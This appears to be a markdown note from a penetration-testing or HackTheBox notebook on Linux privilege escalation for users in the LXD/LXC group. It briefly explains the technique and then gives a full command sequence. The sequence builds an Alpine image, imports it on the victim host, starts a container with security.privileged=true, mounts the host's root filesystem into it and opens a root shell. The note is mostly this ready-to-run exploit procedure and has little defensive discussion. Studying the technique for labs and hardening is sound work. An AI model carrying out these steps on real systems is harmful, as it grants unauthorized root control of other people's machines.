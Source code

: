 # Priv Esc If You're in Group LXC  



* What is LXC and LXD?  
  <blockquote>
  LXC is the well-known and heavily tested low-level Linux container runtime. It is in active development since 2008 and has proven itself in critical production environments world-wide. LXD is a next generation system container manager. that offers a user experience similar to virtual machines but using Linux containers instead.

  The LXC/LXD groups are used to allow users to create and manage Linux containers. These can be exploited by creating a root-level privilege container from the current file system and interacting with it, executing /bin/sh and therefore starting a root shell.
  </blockquote>

* The exploit described as briefly as one could  
  <blockquote>
  So basically, the attack is quite simple. The attack is to run OS in the container on top of the victim OS, where we mount the entire victim OS drive to the container with root access in the container
  </blockquote>


* We can create an alpine image and use the security.privileged=true flag to get root privileges   

  ```cli
  # build a simple alpine image
  git clone https://github.com/saghul/lxd-alpine-builder
  cd lxd-alpine-builder
  sed -i 's,yaml_path="latest-stable/releases/$apk_arch/latest-releases.yaml",yaml_path="v3.8/releases/$apk_arch/latest-releases.yaml",' build-alpine
  sudo ./build-alpine -a i686

  # before running the image, start and configure the lxd storage pool as default 
  lxd init

  # import the image
  lxc image import ./alpine*.tar.gz --alias myimage # It's important doing this from YOUR HOME directory on the victim machine, or it might fail.

  # run the image
  lxc init myimage mycontainer -c security.privileged=true

  # mount the /root into the image
  lxc config device add mycontainer mydevice disk source=/ path=/mnt/root recursive=true

  # interact with the container
  lxc start mycontainer
  lxc exec mycontainer /bin/sh
  ```  

* This is the way to be used when we don't have any internet which is always the case with HTB boxes.
* I created the image (.tar.gz) on my box and then transferred it to the victim's box.   

  <blockquote>
  The easiest way to exploit this misconfiguration is to build an image of Alpine, a lightweight Linux distribution, and start it using the security.privileged=true flag, forcing the container to interact as root with the host filesystem and therefore allowing to read/write/execute root-level files
  </blockquote>


<br/><br/>